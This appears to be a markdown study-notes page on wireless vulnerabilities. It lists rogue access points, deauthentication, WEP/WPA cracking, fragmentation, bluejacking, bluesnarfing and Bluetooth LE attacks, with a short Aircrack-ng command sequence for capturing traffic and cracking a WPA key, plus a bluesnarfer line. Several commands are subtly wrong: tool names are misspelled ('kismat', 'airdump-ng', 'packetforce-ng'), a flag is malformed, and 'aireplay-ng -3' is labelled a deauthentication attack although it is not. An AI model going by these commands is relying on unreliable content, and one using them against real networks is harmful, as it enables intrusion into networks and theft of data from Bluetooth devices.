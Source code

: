 <h5><em>ver: Sep-2022</em></h5>

<h2> Wireless Vulnerabilities</h2>

---

<h4>1. Rogue Access Points</h4>
<h4>2. Disassociation Attacks</h4>

-   Kismet
-   KisMAC
-   Airmon-ng (Aircrack-ng suite)

<h5>2-1. Attacks Against WEP/WPA</h5>

```sh
# kismat
kismat -h

# Aircrack-ng suite: requires Wi-Fi device connection
sudo airmon-ng check

# step-1: start wirelss interface monitor
sudo airmon-ng start wlan0 11

# step-2 capture all the traffic to a capture file
sudo airdump-ng -c 11 -bssid xx:xx:xx:xx:xx:xx -w file-name wlan0

# step-3 perform a deauthentication attack
aireplay-ng -3 -b xx:xx:xx:xx:xx:xx -h xx:xx:xx:xx:xx:xx wlan0

# step-4 crack WPA PSK
aircrack-ng -b xx:xx:xx:xx:xx:xx file-name.cap

```

<h4>3. Fragmentation Attacks</h4>

-   Refer to [aircrack-ng tech' manual](https://download.aircrack-ng.org/wiki-files/doc/technique_papers/Final-Nail-in-WEPs-Coffin.slides.pdf)

```sh
# wireless injection attack: usually not-effective
packetforce-ng --h

```

<h4>4. Bluejacking </h4>

-   Refer to https://acadpubl.eu/jsi/2017-116-8/articles/9/72.pdf

<h4>5. Bluesnarfing </h4>

```sh
bluesnarfer -b xx:xx:xx:xx:xx -i


```

<h4>6. Bluetooth Low energy Attack </h4>

-   Refer to https://dl.acm.org/doi/pdf/10.1145/3319535.3354240
